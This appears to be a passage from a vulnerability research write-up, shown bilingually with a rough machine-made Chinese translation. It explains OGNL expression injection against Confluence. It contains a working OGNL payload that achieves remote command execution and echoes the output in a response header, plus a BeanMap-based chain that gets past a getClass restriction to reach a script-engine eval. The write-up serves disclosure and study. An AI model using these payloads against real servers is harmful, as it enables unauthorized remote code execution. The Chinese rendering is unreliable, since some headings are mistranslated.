 As you can see in the resulting tree, there are no hints of any `ASTVarRef` node and therefore access to `#application` is granted.  
正如您在生成的树中所看到的，没有任何 `ASTVarRef` 节点的提示，因此允许访问 `#application` 。

### Weaponizing `ASTEval` 正在筛选 `ASTEval`[](#weaponizing-asteval)

There are multiple ways to craft a payload levering this vector. For example, we could get arbitrary RCE with echoed response:  
有多种方法来制造一个有效载荷勒韦林这个载体。例如，我们可以得到带有回显响应的任意 RCE：

```swift
('(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@get'+'Runtime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))')('')
```

![The screenshot shows a response from the Confluence server including an `X-Cmd-Response` which shows the output of the `id` command.](assets/1710387635-72e7caf325dd648de67df59b4a9fe76c.png)

### Enter `ASTMap`, `ASTChain` and `ASTSequence`  
输入 `ASTMap` 、 `ASTChain` 和 `ASTSequence`[](#enter-astmap-astchain-and-astsequence)

I was already familiar with `ASTMap`s from reading [Mc0wn’s great article](https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html). In a nutshell, OGNL allows developers to instantiate any `java.util.Map` implementation by using the `@<class_name>@{}` syntax.  
我已经熟悉了阅读 Mc0wn 的伟大文章。简而言之，OGNL 允许开发人员使用 `@<class_name>@{}` 语法实例化任何 `java.util.Map` 实现。

Using this technique, we were able to use a `BeanMap` (a map wrapping a Java bean and exposing its getters and setters as map entries) to bypass the `getClass` limitation by rewriting the payload as:  
使用这种技术，我们能够使用 `BeanMap` （一个映射，包装一个 Java bean，并将其 getter 和 setter 作为映射项公开）通过将有效负载重写为以下内容来绕过 `getClass` 限制：

```java
BeanMap map = @org.apache.commons.beanutils.BeanMap@{};

map.setBean(“”)

map.get(“class”).forName(”javax.script.ScriptEngineManager”).newInstance().getEngineByName(“js”).eval(payload)
```
